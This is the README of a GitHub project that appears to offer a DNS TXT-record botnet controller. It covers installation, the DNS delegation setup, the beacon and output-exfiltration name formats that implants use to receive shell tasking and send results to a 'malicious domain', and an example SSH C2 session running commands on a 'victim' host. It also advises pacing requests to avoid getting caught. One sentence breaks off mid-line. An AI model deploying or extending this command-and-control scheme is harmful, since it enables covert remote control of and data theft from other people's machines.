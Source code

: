 DNSBotnet
=========
Controller for a DNS TXT record-based botnet.

Work "in progress", though works pretty well as-is.

~More documentation (and ease-of-use) will be implemented in the future.~

For legal use only.

Building / Installation
-----------------------
The botnet Controller (in the same directory as this file) can be built and
installed with the customary
```bash
go install github.com/magisterquis/dnsbotnet@latest
```
or
```bash
git clone github.com/magisterquis/dnsbotnet
cd dnsbotnet
go install
```

Aside from the binary, an NS record for the domain to be used for beacons must
be set up such that the Controller will receive DNS requests from recursive
resolvers.  This usually means setting a glue (A) records or two and an NS
record with the registrar to point to the IP address of the Controller.

A file containing the SSH public keys should be made to authenticate C2 clients
(i.e. botnet Controller users).  This file is in the same format as OpenSSH's
`authorized_keys`. and is named `authorized_keys.dnsbotnet` by default.

Implants / Protocol
-------------------
Each individual implant has a README with more information.

There are two DNS request formats that the Controller understands: beacons
and output.  In general, clients should beacon periodically to check for
tasking, and if tasking is received, execute it and return any output with
a further series of DNS requests.

The timing of DNS requests is left up to the implant.  They should be fast
enough to allow for usage (interactive, if desired), but slow enough not to get
caught.

### Beacons
Beacon requests should have exactly one name in the following format:
```
ignored.counter.t.implantid.domain
```
The response will either contain a single text record with the task to execute
or no responses at all.  How the tasking is executed is up to the implant.  The
implants contained within this repository run the tasking as a shell command
and return its stdout and stderr.  The meaning of each part of the name will be
explained below.

### Output
Output requests should have exactly one name in the following format:
```
outhex.counter.o.implantid.domain
```
The response will always have 0 records.  The output is printed to any C2
Clients which request it, explained below.  The meaning of each part of the
name will be explained below.  The output should be carefully chunked to

### Names
Request and response names have the following parts

|Label|Meaning|Example|
|-----|-------|-------|
|ignored   | Ignored, for symmetry with beacons.                                                                                   | 0           |
|outhex    | Tasking output, hex-encoded.  The maximum length is 31 bytes (62 hex digits).                                         | 4920616d20313333370a |
|counter   | A unique number per request to prevent caching (i.e. cachebusting).                                                   | 37          |
|t         | A literal t, to signify a beacon (request for tasking).                                                               | t           |
|o         | A literal o, to signify an output request.                                                                            | o           |
|implantid | An ID chosen by the implant to uniquely identify itself.  IP addresses with dots replaced by dashes are good choices. | 192-168-11-11 |
|domain    | The malicious domain.                                                                                                 | example.com |

A beacon name might look like
```
0.3580645942777501247.t.192-168-11-11.example.com
```
An output name might look like
```
202020202020202020202020203634353220436f6e736f6c65202020202020.1150749505258401772.o.192-168-11-11.example.com
```

C2 Clients
----------
All acutal tasking of bots is done by first SSHing to the Controller, then
issuing commands via SSH.  A complete list of commands is available with the
`help` command.

The C2 client session can either be used to display tasking output or beacons
(which may be filtered to only show certain beacons of interest).

Example C2 session:
```
$ ssh -p 10987 c2server.com
Welcome to the DNSBotnet Server!

Available commands:
help        - This message
id          - Show all beacons
idr <regex> - Show beacons from implants matching regex
id <ID>     - Show a particular implant's output (not beacons)
t <ID>      - Task the current implant (after ID is set)
last [n]    - Show the [n most recent] beacons from all implants
exit        - Goodbye.

2018/02/16 05:28:54 [192-168-11-11] Beacon (2143406018522754847)
2018/02/16 05:28:56 [192-168-11-11] Beacon (2143406018522754848)
2018/02/16 05:28:58 [192-168-11-11] Beacon (2143406018522754849)
2018/02/16 05:29:01 [192-168-11-11] Beacon (2143406018522754850)
> id 192-168-11-11
2018/02/16 05:29:06 Watching implant with ID "192-168-11-11"
192-168-11-11> t uname -a
2018/02/16 05:29:12 Queued task for implant 192-168-11-11: "uname -a"
OpenBSD victim.example.com 6.2 GENERIC.MP#134 amd64
192-168-11-11> last 1
ID            Queued Last Seen
--            ------ ---------
192-168-11-11 0      2018-02-16T05:29:31Z (4.8s)

Current time is 2018-02-16T05:29:36Z
192-168-11-11> exit
```

Unless a particular implant is specified with the `id` command, only beacons
will be printed.  To interact with a particular implant, use the `id` command
to specify the implant by ID  and then the `t` command to give it tasking.
Output from tasking will be printed to the terminal.  The `last` commands work
whether an implant is selected or not.  The `idr` command and the `id` command
without an implant ID can be used to return to printing beacons.

In practical usage, it's helpful to have one C2 connection showing beacons as
they come in and one or more to interact with implants.

Logging
-------
A log file is generated with all tasking and output.  It can be used as a
history of commands run as well as to recover output lost when tasking finished
after `id` was used to view another implant's output.
